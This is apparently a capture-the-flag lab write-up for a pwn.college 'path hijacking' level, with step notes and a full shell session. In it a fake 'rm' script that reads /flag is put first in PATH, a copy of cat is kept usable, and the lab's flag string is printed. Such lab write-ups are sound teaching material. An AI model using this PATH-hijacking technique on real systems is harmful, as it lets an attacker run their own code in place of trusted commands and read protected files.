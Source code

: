 # Hijacking Commands
- By default, we can't modify or change the content of /challenge/run. So the best we can do is change the working of rm.
- We can make our own rm file which instead of deleting the contents of the file reads it.
- But the problem is after we overwrite PATH we won't be able to use cat to read the contents since it doesn't know where cat is located.
- To solve this I copied to contents of the cat command(got the address by which cat/ command -v cat) to a cat file in home. Also create your own rm file.
- Now store their paths in PATH. Prefer putting their paths first. I also left /run/... just incase this method didn't work I could still use the commands.
- Make sure you remove all the paths that begin with /usr because the program tends to use all the commands(like rm etc) stored in those files and ignores other files.
- Lastly ensure you can execute your cat and rm that you created by modifying its permissions using chmod.
- CONGRATULATIONS its finally over. Run /challenge/run and get the FLAG.
```bash
hacker@path~hijacking-commands:~$ echo "cat /flag" > rm
hacker@path~hijacking-commands:~$ cp /usr/bin/cat cat
hacker@path~hijacking-commands:~$ echo $PATH
/run/challenge/bin:/run/workspace/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
hacker@path~hijacking-commands:~$ PATH=/home/hacker:/run/challenge/bin:/run/workspace/bin
hacker@path~hijacking-commands:~$ chmod ug+x rm
hacker@path~hijacking-commands:~$ chmod ug+x cat
hacker@path~hijacking-commands:~$ /challenge/run
Trying to remove /flag...
pwn.college{oV2IP0A6HY7njp5K1qMc-rT8mxV.ddzNyUDL0gTN0czW}
```
